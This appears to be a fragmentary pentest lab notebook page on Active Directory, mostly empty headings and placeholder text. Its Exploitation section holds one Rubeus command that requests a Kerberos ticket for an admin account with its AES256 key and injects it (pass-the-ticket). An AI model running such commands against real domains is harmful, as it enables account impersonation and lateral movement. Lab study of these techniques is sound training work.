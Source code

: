 ## Overview 
// Some code

Hello Trying
Are u syncing
## Enumeration 
// Some code

## Exploitation 
// Some code
``
```
C:\AD\Tools\Rubeus.exe asktgt /user:ciadmin /aes256:<aes256 key of ciadmin> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

[[Reconnaissance (TA0043)]]

[[#Enumeration]] 

